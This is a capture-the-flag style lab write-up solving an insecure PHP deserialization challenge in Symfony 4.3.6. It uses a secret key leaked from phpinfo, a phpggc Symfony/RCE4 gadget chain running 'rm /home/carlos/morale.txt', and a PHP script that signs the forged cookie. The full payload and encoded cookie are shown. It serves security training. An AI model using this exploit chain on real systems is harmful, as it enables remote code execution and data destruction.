 ## Lab Description :

![image](https://github.com/user-attachments/assets/8f9e06a7-5887-49e7-ac45-39254865d268)


## Solution :

Login as wiener & observe that the cookie is a PHP serialized object.

![image](https://github.com/user-attachments/assets/0bc3b081-6329-4720-ad63-8aa67fde3e8a)

From the token we can see that the cookie is signed using **HMAC-SHA1**.

```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ6eWt1aXpqdmcybzBiOTd2dWM1M214d2t0aG5xb2ozMSI7fQ==","sig_hmac_sha1":"2a64f65014ce2c5f34933dccc2da775dcf1355f4"}
```

From the below screenshot we can see that upon changing the cookie value, the application throws a error response revealing `**Symfony Version: 4.3.6**`.

![image](https://github.com/user-attachments/assets/85c6208b-b506-4f70-a0e9-c67a87d05480)

![image](https://github.com/user-attachments/assets/84ef553c-cb3d-4f79-9bf9-3f366c1d9b71)

Performing a GET request to **_/cgi-bin/phpinfo.php_** reveals several key informations like - `SECRET_KEY used for signing cookie is o98amn39pc65359ge8457oqy94sx4ish` , `Linux 28ed5e9f5b8` & other internal file information.

![image](https://github.com/user-attachments/assets/fe2f5218-c85d-4dad-bd9b-a356b116474a)


Since we know the **Symfony version is 4.3.6**, we can check for deserialisation vulnerabilities in that version using **PHPGCC** & create a malicious serialized payload.

![image](https://github.com/user-attachments/assets/03c9d22b-aa9f-422d-b398-ce0bcc86da37)

Now since we know that we need to use `Symfony/RCE4` gadget chain, we can create a payload to delete _morale.txt_ file under carlos's home directory.

```php
┌──(kali㉿kali)-[~/Downloads/phpggc]
└─$ ./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt'

O:47:"Symfony\Component\Cache\Adapter\TagAwareAdapter":2:{s:57:"Symfony\Component\Cache\Adapter\TagAwareAdapterdeferred";a:1:{i:0;O:33:"Symfony\Component\Cache\CacheItem":2:{s:11:"*poolHash";i:1;s:12:"*innerItem";s:26:"rm /home/carlos/morale.txt";}}s:53:"Symfony\Component\Cache\Adapter\TagAwareAdapterpool";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":2:{s:54:"Symfony\Component\Cache\Adapter\ProxyAdapterpoolHash";i:1;s:58:"Symfony\Component\Cache\Adapter\ProxyAdaptersetInnerItem";s:4:"exec";}}
```
Now since we observed that the cookie is signed, we too need to sign this payload generated by phpgcc. For that we can make use of the following script.

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```
> Make sure to update the payload generated by phpgcc & secret_key

```bash
┌──(kali㉿kali)-[~/Downloads/phpggc]
└─$ nano signing_script.php
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads/phpggc]
└─$ php signing_script.php
 
%7B%22token%22%3A%22O%3A47%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapter%22%3A2%3A%7Bs%3A57%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapterdeferred%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A33%3A%22Symfony%5CComponent%5CCache%5CCacheItem%22%3A2%3A%7Bs%3A11%3A%22%2ApoolHash%22%3Bi%3A1%3Bs%3A12%3A%22%2AinnerItem%22%3Bs%3A26%3A%22rm+%2Fhome%2Fcarlos%2Fmorale.txt%22%3B%7D%7Ds%3A53%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapterpool%22%3BO%3A44%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapter%22%3A2%3A%7Bs%3A54%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapterpoolHash%22%3Bi%3A1%3Bs%3A58%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdaptersetInnerItem%22%3Bs%3A4%3A%22exec%22%3B%7D%7D%22%2C%22sig_hmac_sha1%22%3A%2282fdabbf5fa7c15a1f455057d72040e5426291dc%22%7D
```

Send the url-encoded token as cookie & observe that the server throws a error & at the same time executes the serialized payload & deletes the morale.txt file.

![image](https://github.com/user-attachments/assets/6488528d-8c02-4915-a9e4-5284db0cd32b)

Thus the lab is solved.

![image](https://github.com/user-attachments/assets/db1718d1-3663-4844-a59f-7ba1ac188c2c)

